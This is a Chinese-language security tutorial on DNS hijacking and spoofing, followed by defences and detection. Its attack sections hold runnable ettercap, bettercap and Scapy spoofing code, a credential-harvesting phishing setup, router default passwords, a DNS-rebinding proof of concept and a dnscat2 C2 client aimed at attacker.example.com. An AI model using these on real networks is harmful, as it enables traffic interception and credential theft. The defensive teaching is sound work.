



## 案例二：DNS劫持与DNS欺骗

DNS（Domain Name System）是互联网的"电话簿"，负责将人类可读的域名转换为机器可识别的IP地址。由于DNS协议设计之初未考虑安全性，查询过程明文传输、无身份验证，这使得DNS成为攻击者最常利用的攻击面之一。DNS劫持与DNS欺骗是最常见的DNS安全威胁，攻击者通过篡改DNS解析结果，将用户流量引导至恶意服务器，进而实现钓鱼窃密、广告注入、流量监听等目的。

### 2.1 DNS协议基础：理解攻击面

要理解DNS攻击，首先需要理解DNS解析的完整流程。

#### 2.1.1 DNS解析流程



每一个环节都可能被攻击者利用，攻击者只需劫持其中任意一个节点，就能控制最终的解析结果。

#### 2.1.2 DNS记录类型

| 记录类型 | 用途 | 示例 |
|---------|------|------|
| A | IPv4地址映射 | example.com → 93.184.216.34 |
| AAAA | IPv6地址映射 | example.com → 2606:2800:220:1:... |
| CNAME | 别名记录 | www.example.com → example.com |
| MX | 邮件交换记录 | example.com → mail.example.com |
| NS | 域名服务器记录 | example.com → ns1.example.com |
| TXT | 文本记录(SPF/DKIM等) | "v=spf1 include:..." |
| PTR | 反向DNS解析 | 34.216.184.93 → example.com |
| SOA | 权威记录起始 | 区域管理信息 |

攻击者最常篡改的是A和AAAA记录，因为它们直接决定域名对应的IP地址。MX记录篡改可用于劫持邮件流量，NS记录篡改则可以控制整个域名的解析。

#### 2.1.3 DNS查询类型

- **递归查询（Recursive）**：客户端向本地DNS服务器发出请求，由本地DNS服务器负责完成整个解析过程，客户端只需等待最终结果
- **迭代查询（Iterative）**：DNS服务器之间进行的查询，每一步只返回下一步应该查询的服务器地址，由请求方逐步追踪

普通用户的DNS请求通常是递归查询，而递归解析器与根/TLD/权威DNS之间的交互是迭代查询。理解这一区别有助于定位攻击发生在哪个层面。

### 2.2 DNS攻击分类

DNS攻击手段多种多样，根据攻击原理和实现方式可分为以下几类：

| 攻击类型 | 攻击原理 | 攻击范围 | 实现难度 | 典型工具 |
|---------|---------|---------|---------|---------|
| ARP欺骗+DNS欺骗 | 局域网ARP投毒后劫持DNS | 同一局域网 | 低 | ettercap、bettercap |
| 本地DNS缓存投毒 | 向目标主机发送伪造DNS响应 | 单台主机 | 低 | Scapy、dnsspoof |
| 路由器DNS劫持 | 修改路由器DNS配置 | 整个局域网 | 低 | 默认密码登录 |
| 中间人DNS篡改 | 在网络路径中修改DNS包 | 经过的流量 | 中 | mitmproxy、Scapy |
| DNS缓存投毒(Kaminsky) | 利用事务ID猜测注入伪造响应 | 递归解析器的所有用户 | 高 | 自定义脚本 |
| BGP劫持DNS | 劫持BGP路由使流量经过攻击者 | 区域级/全球级 | 极高 | 路由器访问权限 |
| DNS隧道 | 利用DNS协议传输隐蔽数据 | 绕过网络审查 | 中 | iodine、dnscat2 |

### 2.3 局域网DNS欺骗实战

局域网DNS欺骗是最常见的DNS攻击方式，通常结合ARP欺骗实现。攻击者在同一局域网内，通过ARP投毒使自己成为中间人，然后拦截并篡改DNS查询响应。

#### 2.3.1 Ettercap方案

Ettercap是一款经典的中间人攻击工具，内置DNS欺骗插件。

**第一步：配置DNS欺骗规则**

编辑 `/etc/ettercap/etter.dns` 文件，添加伪造的DNS记录：

```dns
# 将所有域名解析到攻击机（通配符模式）
*            A     192.168.1.10
*            PTR   192.168.1.10

# 或者只针对特定域名（精确模式，更隐蔽）
example.com       A     192.168.1.10
www.example.com   A     192.168.1.10
# 钓鱼场景：将银行域名指向伪造登录页
# bank.com         A     192.168.1.10
# www.bank.com     A     192.168.1.10
```

`*` 通配符表示匹配所有域名，适用于将所有HTTP流量劫持到钓鱼页面的场景。精确模式则只劫持特定域名，更加隐蔽。

**第二步：搭建钓鱼Web服务器**

在攻击机上部署Web服务，用于接收被劫持的流量：

```bash
# 方法一：使用Apache2
sudo apt install apache2
sudo systemctl start apache2
# 将钓鱼页面放入 /var/www/html/

# 方法二：使用Nginx
sudo apt install nginx
sudo systemctl start nginx

# 方法三：快速测试用Python HTTP服务器
cd /var/www/html
python3 -m http.server 80

# 方法四：使用setoolkit搭建完整钓鱼站
sudo setoolkit
# 选择 1) Social-Engineering Attacks
# 选择 2) Website Attack Vectors
# 选择 3) Credential Harvester Attack Method
# 选择 2) Site Cloner
# 输入要克隆的URL和本机IP
```

**第三步：启动ARP欺骗与DNS欺骗**

```bash
# 图形界面方式
sudo ettercap -G

# 命令行方式（推荐，适合脚本化）
sudo ettercap -T -q -i eth0 -M arp:remote /192.168.1.100/ /192.168.1.1/
```

参数说明：

| 参数 | 含义 |
|------|------|
| `-T` | 使用文本界面（命令行模式） |
| `-q` | 静默模式，减少输出干扰 |
| `-i eth0` | 指定网络接口 |
| `-M arp:remote` | 使用ARP欺骗中间人攻击模式 |
| `/192.168.1.100/` | 目标主机IP（受害者） |
| `/192.168.1.1/` | 网关IP（路由器） |

启动后在ettercap交互界面中按 `Shift+P` 打开插件列表，选择 `dns_spoof` 插件启用。或者在命令行模式下使用 `-P dns_spoof` 参数直接加载：

```bash
sudo ettercap -T -q -i eth0 -M arp:remote -P dns_spoof /192.168.1.100/ /192.168.1.1/
```

**第四步：验证攻击效果**

在目标机上执行DNS查询：

```bash
# 使用dig命令查询
dig www.example.com
# 查看ANSWER SECTION，应该返回192.168.1.10

# 使用nslookup查询
nslookup www.example.com
# Server应显示攻击机IP，Address应为192.168.1.10

# 使用curl测试HTTP访问
curl -v http://www.example.com
# 应该能看到攻击机Web服务器返回的内容

# 使用ping测试
ping -c 3 www.example.com
# 解析到的IP应为攻击机地址
```

#### 2.3.2 Bettercap方案

Bettercap是ettercap的现代化替代品，功能更强大，支持WiFi、蓝牙等多种攻击向量。

```bash
# 安装bettercap
sudo apt install bettercap
# 或从GitHub下载最新版
# go install github.com/bettercap/bettercap@latest

# 启动bettercap
sudo bettercap -iface eth0
```

在bettercap交互界面中：

```bash
# 启用ARP欺骗
set arp.spoof.targets 192.168.1.100
arp.spoof on

# 配置DNS欺骗
set dns.spoof.domains example.com,www.example.com
set dns.spoof.address 192.168.1.10
set dns.spoof.all true   # true=所有域名, false=仅指定域名
dns.spoof on

# 查看事件日志
events.stream off   # 先关闭流式输出
events.show         # 查看历史事件
```

Bettercap的优势在于：
- 内置Web UI（`http://127.0.0.1:80`），可视化操作更友好
- 支持实时查看受害者请求的URL和凭据
- 自动进行ARP欺骗，无需额外配置
- 支持HTTPS降级（SSL strip）
- 脚本化能力强，支持 `.capscript` 脚本文件

#### 2.3.3 Scapy自定义DNS欺骗脚本

对于需要更精细控制的场景，可以使用Scapy编写自定义DNS欺骗脚本：

```python
#!/usr/bin/env python3
"""
DNS欺骗脚本 - 基于Scapy
功能：监听DNS查询并返回伪造的DNS响应
前提：已通过ARP欺骗成为中间人
"""

from scapy.all import *
from scapy.layers.dns import DNS, DNSQR, DNSRR
from scapy.layers.inet import IP, UDP
import sys

# 配置
SPOOF_IP = "192.168.1.10"  # 攻击机IP
TARGET_DOMAINS = ["example.com", "www.example.com"]
# 设为空列表则劫持所有域名
# TARGET_DOMAINS = []

def process_packet(packet):
    """处理捕获的DNS查询包"""
    if packet.haslayer(DNS) and packet[DNS].qr == 0:
        # qr==0 表示这是一个DNS查询（非响应）
        queried_domain = packet[DNSQR].qname.decode('utf-8').rstrip('.')

        # 检查是否需要劫持
        should_spoof = False
        if not TARGET_DOMAINS:
            should_spoof = True  # 劫持所有域名
        else:
            for domain in TARGET_DOMAINS:
                if queried_domain == domain or queried_domain.endswith('.' + domain):
                    should_spoof = True
                    break

        if should_spoof:
            print(f"[+] 劫持DNS查询: {queried_domain} -> {SPOOF_IP}")

            # 构造伪造的DNS响应
            spoofed_response = (
                IP(dst=packet[IP].src, src=packet[IP].dst) /
                UDP(dport=packet[UDP].sport, sport=packet[UDP].dport) /
                DNS(
                    id=packet[DNS].id,          # 必须与查询包的事务ID一致
                    qr=1,                        # 1=响应
                    aa=1,                        # 1=权威应答
                    qd=packet[DNS].qd,           # 复制查询部分
                    an=DNSRR(
                        rrname=packet[DNSQR].qname,
                        rdata=SPOOF_IP,
                        ttl=3600
                    )
                )
            )

            send(spoofed_response, verbose=False)
            print(f"[+] 已发送伪造响应 (事务ID: {packet[DNS].id})")

def main():
    print(f"[*] DNS欺骗脚本已启动")
    print(f"[*] 伪造IP: {SPOOF_IP}")
    print(f"[*] 目标域名: {TARGET_DOMAINS or '所有域名'}")
    print(f"[*] 监听接口: {conf.iface}")
    print(f"[*] 按Ctrl+C停止")

    # 捕获DNS查询包（UDP端口53）
    sniff(
        filter="udp port 53",
        prn=process_packet,
        store=0,  # 不在内存中存储捕获的包，节省内存
        iface=conf.iface
    )

if __name__ == "__main__":
    main()
```

运行前需要先开启IP转发，保证受害者网络不受影响：

```bash
# 开启IP转发
sudo sysctl -w net.ipv4.ip_forward=1

# 启动ARP欺骗（使用arpspoof工具）
sudo arpspoof -i eth0 -t 192.168.1.100 192.168.1.1 &
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.100 &

# 启动DNS欺骗脚本
sudo python3 dns_spoof.py
```

Scapy方案的优势在于灵活性极高——可以实现条件劫持（只劫持特定TLD）、延迟响应、记录所有DNS查询日志等高级功能。

### 2.4 路由器DNS劫持

路由器DNS劫持的影响范围远大于局域网欺骗，因为它是网络出口层面的劫持，影响所有连接该路由器的设备。

#### 2.4.1 攻击方式

**方式一：利用默认凭据登录修改DNS**

```bash
# 扫描局域网中的路由器
nmap -sn 192.168.1.0/24

# 常见路由器默认凭据
# TP-Link:    admin / admin
# D-Link:     admin / admin (或空密码)
# Netgear:    admin / password
# Linksys:    admin / admin
# ASUS:       admin / admin
# Huawei:     admin / admin
# Xiaomi:     无密码(首次需设置)
# Tenda:      admin / admin

# 使用routerpwn等在线工具检查路由器漏洞
# https://www.routerpwn.com/
```

登录路由器管理后台后，将DNS服务器地址修改为攻击者控制的DNS服务器。

**方式二：利用路由器固件漏洞**

很多老旧路由器存在已知漏洞，攻击者无需密码即可远程修改DNS设置：

```bash
# 使用routersploit框架扫描路由器漏洞
pip install routersploit
rsf> use scanners/autopwn
rsf> set target 192.168.1.1
rsf> run

# 常见的路由器DNS劫持漏洞：
# CVE-2018-10561/10562 - GPON路由器远程代码执行
# CVE-2019-14000/14001 - Qualcomm芯片路由器UPnP漏洞
# CVE-2020-10987 - Tenda路由器命令注入
```

**方式三：恶意WiFi热点（Evil Twin）**

```bash
# 使用hostapd创建同名WiFi热点
# 配置恶意DHCP服务器分配攻击者的DNS

# 使用wifiphisher自动化
sudo wifiphisher
# 选择Evil Twin模式
# 受害者连接后，DNS指向攻击者控制的服务器
```

#### 2.4.2 真实案例

**2018年巴西路由器DNS劫持事件**：攻击者通过UPnP漏洞修改了巴西超过10万台路由器的DNS设置，将银行网站域名解析到钓鱼服务器，窃取用户银行凭据。攻击者利用的是CVE-2018-10561等GPON路由器漏洞。

**2019年VPNFilter恶意软件**：该恶意软件感染了全球54个国家的50万台路由器，其中一个功能模块就是修改路由器DNS设置，将特定域名的流量重定向到攻击者服务器。

### 2.5 DNS缓存投毒（Kaminsky攻击）

2008年，安全研究员Dan Kaminsky发现了DNS协议的一个根本性漏洞，影响了几乎所有DNS实现。虽然现代DNS服务器已通过源端口随机化缓解了此攻击，但理解其原理对于认识DNS安全至关重要。

#### 2.5.1 攻击原理

DNS使用16位的事务ID（Transaction ID）来匹配查询和响应。在Kaminsky攻击被发现之前，很多DNS服务器的事务ID是可预测的，源端口也固定为53。



Kaminsky攻击的关键创新在于：攻击者查询的是**随机不存在的子域名**（如 `random123.example.com`），这使得递归DNS服务器每次都会发出新的查询请求，给攻击者更多机会注入伪造响应。如果攻击已缓存的域名，递归DNS会直接返回缓存结果，不会发出新查询。

#### 2.5.2 源端口随机化（缓解措施）

Kaminsky漏洞被公开后，所有主流DNS实现都引入了源端口随机化：

```bash
# BIND的源端口随机化（默认已启用）
# 查看当前配置
cat /etc/bind/named.conf.options | grep -A5 "query-source"

# 手动配置
options {
    query-source port *;        # 随机源端口
    query-source-v6 port *;     # IPv6随机源端口
};
```

源端口随机化将猜测空间从2^16（65536种事务ID）扩展到2^32（事务ID × 源端口），大幅提高了攻击难度，但并未完全消除风险。

### 2.6 高级DNS攻击技术

#### 2.6.1 DNS重绑定攻击

DNS重绑定是一种绕过同源策略的攻击技术，攻击者利用DNS TTL的短暂窗口，使浏览器在同一个域名下访问不同的IP地址。

```python
#!/usr/bin/env python3
"""
DNS重绑定攻击PoC服务器
原理：
1. 第一次查询返回攻击者IP（TTL=0）
2. 浏览器加载恶意JS脚本
3. JS发起对同一域名的请求
4. 第二次DNS查询返回内网IP（如路由器192.168.1.1）
5. 浏览器认为是同源，允许访问内网资源
"""

from http.server import HTTPServer, BaseHTTPRequestHandler
import socket

ATTACKER_IP = "公网IP"
TARGET_INTERNAL_IP = "192.168.1.1"  # 目标内网地址

class RebindHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path == '/':
            # 返回包含恶意JS的页面
            self.send_response(200)
            self.send_header('Content-Type', 'text/html')
            self.end_headers()
            html = f"""
            <html>
            <body>
            <h1>Loading...</h1>
            <script>
            // 循环请求同一域名，等待DNS重绑定发生
            function attack() {{
                fetch('http://rebind.attacker.com:8080/probe')
                    .then(r => r.text())
                    .then(data => {{
                        document.body.innerHTML += '<pre>' + data + '</pre>';
                    }})
                    .catch(() => setTimeout(attack, 1000));
            }}
            attack();
            </script>
            </body>
            </html>
            """
            self.wfile.write(html.encode())
        elif self.path == '/probe':
            # 探测请求：检查当前连接的目标IP
            self.send_response(200)
            self.send_header('Content-Type', 'text/plain')
            self.end_headers()
            self.wfile.write(f"Connected to: {self.client_address[0]}".encode())

if __name__ == '__main__':
    server = HTTPServer(('0.0.0.0', 8080), RebindHandler)
    print(f"[*] DNS重绑定攻击服务器已启动")
    server.serve_forever()
```

#### 2.6.2 DNS隧道

DNS隧道利用DNS协议传输非DNS数据，常用于绕过网络访问控制、建立隐蔽C2通道。

```bash
# 使用iodine建立DNS隧道
# 服务端（拥有公网DNS服务器）
sudo iodined -f -c -P password 10.0.0.1 tunnel.example.com

# 客户端
sudo iodine -f -P password tunnel.example.com
# 建立隧道后，通过 10.0.0.0/24 网段通信

# 使用dnscat2建立C2通道
# 服务端
ruby dnscat2.rb --dns domain=example.com --secret=your_secret

# 客户端
./dnscat2 --dns server=attacker.example.com --secret=your_secret
```

### 2.7 防御体系：从基础到高级

#### 2.7.1 基础防御措施

**1. 使用加密DNS协议**

DNS over HTTPS（DoH）和DNS over TLS（DoT）对DNS查询进行加密，防止中间人篡改：

```bash
# 配置系统使用DoH (以systemd-resolved为例)
# 编辑 /etc/systemd/resolved.conf
[Resolve]
DNS=1.1.1.1#cloudflare-dns.com 9.9.9.9#dns.quad9.net
DNSOverTLS=yes
DNSSEC=yes

# 重启服务
sudo systemctl restart systemd-resolved

# 验证配置
resolvectl status
# 应该能看到 DNSOverTLS: yes
```

**2. 启用DNSSEC验证**

DNSSEC通过数字签名验证DNS响应的真实性和完整性：

```bash
# BIND中启用DNSSEC验证
options {
    dnssec-validation auto;
    managed-keys-directory "/var/named/dynamic";
};

# 验证DNSSEC是否工作
dig +dnssec example.com
# 应该能看到 RRSIG 记录

# 使用delv工具验证DNSSEC链
delv example.com @1.1.1.1
# 成功时显示 "fully validated"
```

DNSSEC工作原理：



**3. 硬件和路由器防护**

```bash
# 定期检查路由器DNS设置
# 1. 登录路由器管理界面，检查DNS是否被篡改
# 2. 修改默认管理员密码（使用强密码）
# 3. 禁用远程管理功能（WAN侧管理）
# 4. 定期更新路由器固件

# 检查本机DNS配置是否被篡改
cat /etc/resolv.conf
resolvectl status    # systemd-resolved
nmcli dev show | grep DNS  # NetworkManager
```

#### 2.7.2 网络层防御

**1. 出站DNS流量管控**

```bash
# iptables：只允许向可信DNS服务器发送DNS查询
# 允许向 8.8.8.8 和 1.1.1.1 发送DNS查询
sudo iptables -A OUTPUT -p udp --dport 53 -d 8.8.8.8 -j ACCEPT
sudo iptables -A OUTPUT -p udp --dport 53 -d 1.1.1.1 -j ACCEPT
sudo iptables -A OUTPUT -p tcp --dport 53 -d 8.8.8.8 -j ACCEPT
sudo iptables -A OUTPUT -p tcp --dport 53 -d 1.1.1.1 -j ACCEPT
# 阻止其他所有DNS出站流量
sudo iptables -A OUTPUT -p udp --dport 53 -j DROP
sudo iptables -A OUTPUT -p tcp --dport 53 -j DROP

# 阻止非标准端口的DNS流量（防止DNS隧道）
sudo iptables -A FORWARD -p udp --dport 53 -j DROP
# 仅允许到企业DNS服务器
sudo iptables -I FORWARD -p udp --dport 53 -d 企业DNS服务器IP -j ACCEPT
```

**2. ARP欺骗检测**

```bash
# 静态绑定ARP表项（防止ARP欺骗）
# Linux
sudo arp -s 192.168.1.1 00:11:22:33:44:55  # 绑定网关MAC

# 使用arpwatch监控ARP变化
sudo apt install arpwatch
sudo systemctl start arpwatch
# 当检测到ARP变化时会发送邮件告警

# 使用arping检测ARP欺骗
arping -c 3 -I eth0 192.168.1.1
# 如果收到不同的MAC地址响应，说明存在ARP欺骗
```

#### 2.7.3 监控与检测

**1. DNS流量监控脚本**

```python
#!/usr/bin/env python3
"""
DNS异常检测脚本
功能：监控DNS流量，检测可疑的DNS响应
"""

from scapy.all import *
from collections import defaultdict
import time

# 配置
TRUSTED_DNS = ["8.8.8.8", "1.1.1.1", "企业DNS服务器IP"]
ALERT_THRESHOLD = 10  # 同一域名短时间内收到多个不同IP响应的阈值

# 统计
dns_responses = defaultdict(list)  # domain -> [(ip, timestamp, src)]

def analyze_packet(packet):
    if packet.haslayer(DNS) and packet[DNS].qr == 1:
        # 这是一个DNS响应
        src_ip = packet[IP].src
        dns_id = packet[DNS].id

        if src_ip not in TRUSTED_DNS:
            print(f"[!] 告警：收到来自非信任DNS {src_ip} 的响应 (ID: {dns_id})")

        # 检查DNS响应中的回答记录
        if packet[DNS].an:
            for i in range(packet[DNS].ancount):
                try:
                    rr = packet[DNS].an[i]
                    domain = rr.rrname.decode('utf-8').rstrip('.')
                    ip = rr.rdata

                    if rr.type == 1:  # A记录
                        now = time.time()
                        dns_responses[domain].append((ip, now, src_ip))

                        # 清理过期记录（5分钟窗口）
                        dns_responses[domain] = [
                            (r, t, s) for r, t, s in dns_responses[domain]
                            if now - t < 300
                        ]

                        # 检测同一域名短时间内返回不同IP
                        unique_ips = set(r for r, _, _ in dns_responses[domain])
                        if len(unique_ips) > ALERT_THRESHOLD:
                            print(f"[!] 告警：{domain} 短时间内返回了 {len(unique_ips)} 个不同IP")
                            print(f"    IP列表: {unique_ips}")
                            print(f"    可能存在DNS缓存投毒攻击")

                        # 检测TTL异常低的响应（可能用于DNS重绑定）
                        if rr.ttl == 0 and domain not in ['localhost', 'localhost.localdomain']:
                            print(f"[!] 告警：{domain} 返回TTL=0，可能是DNS重绑定攻击")

                except Exception as e:
                    pass

print("[*] DNS异常检测已启动")
print(f"[*] 信任的DNS服务器: {TRUSTED_DNS}")
sniff(filter="udp port 53", prn=analyze_packet, store=0)
```

**2. 日志分析**

```bash
# BIND DNS服务器日志分析
# 查看DNS查询日志
tail -f /var/log/named/queries.log

# 统计查询频率异常的域名
awk '{print $NF}' /var/log/named/queries.log | sort | uniq -c | sort -rn | head -20

# 检查是否有大量NXDOMAIN响应（可能是隧道活动）
grep "NXDOMAIN" /var/log/named/queries.log | \
  awk '{print $NF}' | sort | uniq -c | sort -rn | head -20

# Windows环境：使用PowerShell查看DNS客户端缓存
Get-DnsClientCache | Format-Table Entry, RecordName, Data
```

### 2.8 各攻击类型对比与应对策略

| 攻击类型 | 影响范围 | 持续时间 | 检测难度 | 主要防御手段 |
|---------|---------|---------|---------|------------|
| ARP欺骗+DNS欺骗 | 单个局域网 | ARP欺骗持续期间 | 低 | 静态ARP绑定、802.1X |
| 路由器DNS劫持 | 路由器下所有设备 | 直到配置被修复 | 低 | 修改默认密码、固件更新 |
| DNS缓存投毒 | 使用该DNS服务器的所有用户 | TTL过期前 | 中 | DNSSEC、源端口随机化 |
| DNS重绑定 | 浏览器同源策略 | 请求期间 | 高 | 浏览器DNS pinning |
| BGP劫持 | 路由可达范围内的所有用户 | BGP收敛前 | 极高 | RPKI、BGP监控 |
| DNS隧道 | 企业网络内部 | 隧道存在期间 | 中 | DNS流量深度检测 |

### 2.9 实验环境搭建（安全靶场）

在合法授权的环境中练习DNS攻击技术，推荐使用以下靶场：

```bash
# 方法一：使用VirtualBox搭建本地靶场
# 1. 安装VirtualBox和Vagrant
# 2. 启动Metasploitable2靶机
vagrant init rapid7/metasploitable3-ub1404
vagrant up
# 3. 启动Kali攻击机
# 4. 两台虚拟机使用Host-Only网络互通

# 方法二：使用DVWA或Metasploitable
# 这些靶机预装了大量有漏洞的服务

# 方法三：使用Docker快速搭建
docker run -d --name vulnerable-dns vulnerables/cve-2020-1350
docker run -d -p 8080:80 --name webgoat webgoat/webgoat

# 方法四：HackTheBox、TryHackMe等在线靶场
# 包含专门的DNS攻击练习模块
```

> **法律声明**：DNS劫持和DNS欺骗技术仅限于在合法授权的环境中进行学习和测试。未经授权对他人网络进行DNS攻击属于违法行为，可能触犯《中华人民共和国网络安全法》《刑法》第285条（非法侵入计算机信息系统罪）和第286条（破坏计算机信息系统罪）。务必在获得明确书面授权后方可进行任何渗透测试。
